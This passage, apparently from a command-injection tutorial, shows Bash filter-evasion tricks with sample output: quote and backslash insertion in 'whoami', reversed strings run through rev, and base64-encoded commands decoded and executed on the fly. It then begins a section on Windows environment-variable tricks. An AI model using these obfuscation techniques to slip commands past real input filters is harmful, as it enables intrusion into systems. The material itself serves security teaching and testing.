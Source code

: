 ```bash
w'h'o'am'i
# Output in Bash:
# babel-linux

w"h"o"am"i
# Output in Bash:
# babel-linux
```

Backslashes (`\`) and positional parameters (`$@`) are similarly ignored by Bash and can be used without interfering with the command’s execution.

```bash
who$@ami
w\ho\am\i
# Output in Bash:
# babel-linux
```

#### Reversing Command Strings

Another technique is reversing command strings to bypass filters. The `rev` command in Linux can reverse the command, allowing you to execute it backward.

```bash
echo 'whoami' | rev
# Output in Bash:
# imahow

$(rev<<<'imahow')
# Output in Bash:
# babel-linux
```

#### Using Base64 Encoding for Commands

Base64 encoding is a powerful way to bypass filters. You can encode a command into Base64, then decode it on the fly to execute it.

```bash
echo -n 'ls /home/babel' | base64
# Output in Bash:
# bHMgL2hvbWUvYmFiZWw=

bash<<<$(base64 -d<<<bHMgL2hvbWUvYmFiZWw=)
# Output in Bash:
# example.txt  babel_config.sh
```

### Windows Command Injection Techniques

#### Manipulating Windows Environment Variables

In Windows, similar techniques can be applied. You can manipulate environment variables such as `%USERPROFILE%` to extract characters and bypass filters.
